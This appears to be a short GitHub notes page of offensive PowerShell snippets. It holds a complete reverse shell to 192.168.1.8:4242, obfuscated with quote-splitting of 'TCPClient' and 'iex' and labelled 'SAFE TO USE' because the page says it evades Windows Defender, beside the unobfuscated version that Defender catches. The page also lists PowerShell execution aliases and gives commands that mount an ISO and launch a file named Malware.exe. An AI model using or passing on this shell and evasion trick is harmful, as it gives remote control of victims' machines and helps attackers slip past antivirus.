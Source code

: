 # Remove Powershell Execution
#### Notes: 
 There are a few ways in PowerShell to call for execution 
  - Invoke-Expression
  - IEX 
  - Invoke-Command 
  - ICM 
  - .invoke() 
  - setting an alias 
  - etc.

#### Example:
```powershell
replace 'IEX' with 'Write-Host'
```
#### References: 
- https://twitter.com/pmelson/status/1263510602305146882


# Powershell Reverse Shell:
### SAFE TO USE:
```
$client = New-Object System.Net.Sockets.T'CPC'lient('192.168.1.8',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i'e'x $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
made changes to "TCPClient" and "iex" that was all that was needed to get it past defender. 
### CAUGHT BY DEFENDER:
```
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.8',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

# Powershell Mount ISO and run malware
```
$path=$PWD.path
Mount-DiskImage $path\Filename.ISO
start $path\Filename\Malware.exe
```

```
$path=$PWD.path;Mount-DiskImage $path\Filename.ISO;start $path\Filename\Malware.exe
```
